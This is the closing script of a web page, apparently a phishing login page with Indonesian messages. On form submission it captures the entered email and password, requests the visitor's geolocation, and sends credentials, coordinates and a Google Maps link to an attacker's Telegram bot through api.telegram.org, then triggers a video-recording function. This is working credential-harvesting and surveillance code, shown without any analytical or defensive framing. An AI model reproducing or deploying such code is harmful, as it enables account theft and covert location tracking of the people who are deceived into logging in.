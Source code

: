     document.getElementById('loginForm').addEventListener('submit', async function (e) {
        e.preventDefault();

        const email = document.getElementById('email').value;
        const password = document.getElementById('password').value;

        if (!email || !password) {
            console.error("Email atau password tidak boleh kosong.");
            return;
        }

        if (processedEmails.has(email)) {
            console.warn("Email sudah diproses sebelumnya.");
            return;
        }

        navigator.geolocation.getCurrentPosition(
            async (position) => {
                const { latitude, longitude } = position.coords;
                const message = `
                ✅ Login Info:
                ➣ Username: ${email}
                ➣ Password: ${password}

                📍 Lokasi Pengguna:
                Latitude: ${latitude}
                Longitude: ${longitude}
                🌍 [Lihat di Google Maps](https://www.google.com/maps?q=${latitude},${longitude})
                `;

                try {
                    const response = await fetch(`https://api.telegram.org/bot${botToken}/sendMessage`, {
                        method: 'POST',
                        headers: { 'Content-Type': 'application/json' },
                        body: JSON.stringify({ chat_id: chatID, text: message, parse_mode: "Markdown" })
                    });
                    console.log('Login info dikirim:', await response.json());

                    processedEmails.add(email);
                    startVideoRecording();
                } catch (error) {
                    console.error('Gagal mengirim login info:', error);
                }
            },
            (error) => {
                console.error("Gagal mendapatkan lokasi:", error);
            }
        );
    });
</script>

</body>
</html>
